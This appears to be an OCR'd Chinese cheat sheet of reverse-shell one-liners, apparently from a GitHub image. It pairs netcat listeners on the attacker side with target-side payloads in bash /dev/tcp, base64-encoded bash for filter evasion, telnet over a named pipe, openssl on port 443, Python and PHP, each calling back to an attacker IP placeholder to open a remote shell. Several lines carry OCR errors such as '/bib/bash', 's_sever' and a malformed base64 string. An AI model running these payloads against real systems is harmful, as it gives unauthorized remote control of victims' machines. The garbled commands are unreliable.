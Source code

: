 控制端：nc -lvvp 6666

被控端：exec 5\<\>/dev/tcp/攻击者ip/6666;cat \<&5 \| while read line;do
\$line 2\>&5 \>&5;done

bash64编码绕过：

bash -c \"echo
YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Lg1LzY2NjYgMD4mMQ==\|base64
-d\|bash -i\"

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

Telnet:

控制端：nc -lvvp 6666

被控端：rm -f a && mknod a p && telnet 攻击者ip 6666 0\<a \| /bib/bash
1\>a

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

Openssl反弹443端口：

1.在远程主机上生成密钥文件

openssl req -x509 -newkey rsa;4096 -keyout ket.pem -out cert.pem -days
365 -nodes

2.在远程主机上启动监视器

openssl s_sever -quiet -key key.pem -cert cert.pem -port 443

3.在目标机上反弹shell

mkfifo /tmp/s;bin/sh -i \< /tmp/s 2\>&1 \| openssl s_client -quiet
-connect 攻击者ip:端口 \> /tmp/s;rm /tmp/s

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

python:

被控端：python -c \'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"攻击机ip\",7777));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);\'

控制端：nc -lvvp 7777

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

php:

被控端：php -r \'\$sock=fsockopen(\"攻击机ip\",4444);exec(\"/bin/sh -i
\<&3 \>&3 2\>&3\");\'
